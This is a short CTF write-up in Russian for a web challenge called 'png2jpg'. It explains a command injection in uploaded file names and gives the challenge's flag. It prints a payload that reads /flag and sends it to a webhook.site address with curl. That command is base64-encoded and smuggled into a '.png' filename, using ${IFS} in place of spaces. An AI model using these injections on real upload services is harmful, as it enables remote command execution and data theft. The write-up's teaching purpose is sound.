




# web | png2jpg

## Information
Написал сервис по перефигачиванию png в jpg. Надеюсь, что он безопасный.

## Writeup
Смотрим на функцию кодирования в другой формат, видим command injection в названии файла.
Также видим функцию проверки на расширение файла, оно должно быть обязательно .png

Также заметим, что в названии файла все пробелы заменяются на _

Делаем вывод, что мы можем прочитать файл и отправить его по вебхуку себе. Также стоит учесть тот факт, что символ / не может быть в названии файла. Поэтому нам придётся закодировать payload в base64, а потом только отправить команду в названии файла. Из-за замены пробелов на _ будем использовать \${IFS} вместо пробелов. Так в линуксе можно выполнять команды без пробелов вовсе. Пример: ``cat${IFS}/etc/passwd``

1. Генерируем payload: ``echo "curl -d \`cat /flag\` https://webhook.site/f7b6e0a2-b6fb-4495-988b-820fcc5eb049" | base64``
2. Посылаем файл с вот таким названием: ``;echo${IFS}'Y3VybCAtZCBgY2F0IC9mbGFnYCBodHRwczovL3dlYmhvb2suc2l0ZS9hMDUzMTQwYS03YjY2LTQxM2YtYTM0Mi0wYjM0MTc3YzEwOGMK'|base64${IFS}-d|bash;#.png``

Подставляете свой webhook и base64 payload, получаете флаг.

## Flag
`SgffCTF{p1vn4y4_inj3ct10n}`